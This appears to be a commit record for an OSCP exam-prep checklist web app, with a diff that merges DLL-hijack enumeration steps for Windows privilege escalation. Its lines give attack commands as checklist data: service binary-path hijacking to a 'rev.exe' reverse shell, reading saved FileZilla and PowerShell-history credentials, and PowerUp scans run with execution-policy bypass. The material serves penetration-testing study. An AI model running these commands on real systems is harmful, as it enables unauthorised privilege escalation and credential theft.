

Before and after one commit to whisk3y3/oscp-command-center, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 654-1419 px from the top of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Consolidate DLL hijack checklist items (8 -> 4)
Merged redundant DLL hijack enum steps in both standalone (wp24)
and AD (mp10) privesc sections. Each now has 2 items:
1. Combined wmic + icacls enum in one command
2. PowerUp scan + reference to docs/DLLHijacking.md for exploitation

```diff
--- a/src/App.jsx
+++ b/src/App.jsx
@@ -373,10 +373,8 @@ const PRIVESC_WINDOWS = [
   { id: "wp21", text: "Find unquoted service paths", cmd: "wmic service get name,displayname,pathname,startmode | findstr /i \"auto\" | findstr /i /v \"C:\\Windows\\\\\" | findstr /i /v \"\\\"\"" },
   { id: "wp22", text: "Check for writable service binaries", cmd: "accesschk.exe /accepteula -uwcqv \"Everyone\" * 2>nul" },
   { id: "wp23", text: "Modify service binary path if you have permissions", cmd: "sc config VulnService binpath= \"C:\\temp\\rev.exe\" && sc stop VulnService && sc start VulnService" },
-  { id: "wp24a", text: "DLL HIJACK ENUM: Find auto-start services with non-system paths (potential DLL hijack targets)", cmd: "wmic service get name,pathname,startmode | findstr /v /i \"C:\\Windows\" | findstr /i \"auto\"" },
-  { id: "wp24b", text: "DLL HIJACK ENUM: Check if YOUR user can write to any of those service directories — look for (M), (W), or (F) in output", cmd: "for /f \"tokens=2 delims='='\" %a in ('wmic service get pathname /format:list ^| findstr /v /i \"C:\\Windows\" ^| findstr /i \":\\\\\"') do @icacls \"%~dpa\" 2>nul | findstr /i \"(M) (W) (F) Everyone Users BUILTIN\"" },
-  { id: "wp24c", text: "DLL HIJACK ENUM: PowerUp.ps1 automated scan — finds writable service dirs + missing DLLs in one shot", cmd: "powershell -ep bypass -c \". .\\PowerUp.ps1; Find-ProcessDLLHijack; Find-PathDLLHijack\"" },
-  { id: "wp24d", text: "DLL HIJACK INDICATORS: Writable service dir + non-system path = likely vulnerable. NOTE: Exploitation requires compiling a malicious DLL — see DLLHijacking.md for full walkthrough (cross-compile from Kali, no Windows machine needed)" },
+  { id: "wp24a", text: "DLL HIJACK ENUM: Find non-system auto-start services + check writable dirs (M/W/F = vulnerable)", cmd: "wmic service get name,pathname,startmode | findstr /v /i \"C:\\Windows\" | findstr /i \"auto\" && for /f \"tokens=2 delims='='\" %a in ('wmic service get pathname /format:list ^| findstr /v /i \"C:\\Windows\" ^| findstr /i \":\\\\\"') do @icacls \"%~dpa\" 2>nul | findstr /i \"(M) (W) (F) Everyone Users BUILTIN\"" },
+  { id: "wp24b", text: "DLL HIJACK ENUM: PowerUp automated scan — or if writable dir found, see docs/DLLHijacking.md for exploitation (cross-compile from Kali, no Windows machine needed)", cmd: "powershell -ep bypass -c \". .\\PowerUp.ps1; Find-ProcessDLLHijack; Find-PathDLLHijack\"" },
   { id: "wp25", text: "icacls on ALL exe in non-standard paths — MODIFY = replace with rev shell", cmd: "icacls C:\\path\\to\\service.exe" },
   // — TIER 4: APPLICATION CREDENTIAL STORES —
   { id: "wp26", text: "FileZilla saved connections with creds", cmd: "type C:\\Users\\*\\AppData\\Roaming\\FileZilla\\recentservers.xml 2>nul" },
@@ -503,10 +501,8 @@ const AD_MS01_PRIVESC = [
   { id: "mp7", text: "Check scheduled tasks for writable scripts", cmd: "schtasks /query /fo LIST /v" },
   { id: "mp8", text: "Check PS history, Unattend.xml, config files, PS transcripts", cmd: "type C:\\Users\\%USERNAME%\\AppData\\Roaming\\Microsoft\\Windows\\PowerShell\\PSReadline\\ConsoleHost_history.txt 2>nul" },
   { id: "mp9", text: "AlwaysInstallElevated, unquoted paths, writable service binaries", cmd: "reg query HKCU\\SOFTWARE\\Policies\\Microsoft\\Windows\\Installer /v AlwaysInstallElevated 2>nul" },
-  { id: "mp10a", text: "DLL HIJACK ENUM: Find services with non-system paths + check if dirs are writable by your user", cmd: "wmic service get name,pathname,startmode | findstr /v /i \"C:\\Windows\" | findstr /i \"auto\"" },
-  { id: "mp10b", text: "DLL HIJACK ENUM: icacls on each service directory — need (M), (W), or (F) for your user/group", cmd: "icacls \"C:\\Program Files\\VulnApp\\\"" },
-  { id: "mp10c", text: "DLL HIJACK ENUM: PowerUp automated scan for hijackable DLLs", cmd: "powershell -ep bypass -c \". .\\PowerUp.ps1; Find-ProcessDLLHijack; Find-PathDLLHijack\"" },
-  { id: "mp10d", text: "DLL HIJACK: If writable service dir found — see DLLHijacking.md for full exploitation walkthrough (cross-compile from Kali, no Windows machine needed)" },
+  { id: "mp10a", text: "DLL HIJACK ENUM: Find non-system auto-start services + check writable dirs (M/W/F = vulnerable)", cmd: "wmic service get name,pathname,startmode | findstr /v /i \"C:\\Windows\" | findstr /i \"auto\" && icacls \"C:\\Program Files\\VulnApp\\\"" },
+  { id: "mp10b", text: "DLL HIJACK ENUM: PowerUp automated scan — or if writable dir found, see docs/DLLHijacking.md for exploitation (cross-compile from Kali)", cmd: "powershell -ep bypass -c \". .\\PowerUp.ps1; Find-ProcessDLLHijack; Find-PathDLLHijack\"" },
   { id: "mp11", text: "UAC status — if disabled, any local admin = SYSTEM", cmd: "reg query HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System /v EnableLUA" },
   { id: "mp12", text: "Check for internal-only services to port forward", cmd: "netstat -ano | findstr LISTENING" },
   { id: "mp13", text: "Run automated tools if stuck after 20 min", cmd: ".\\winPEASx64.exe" },
```
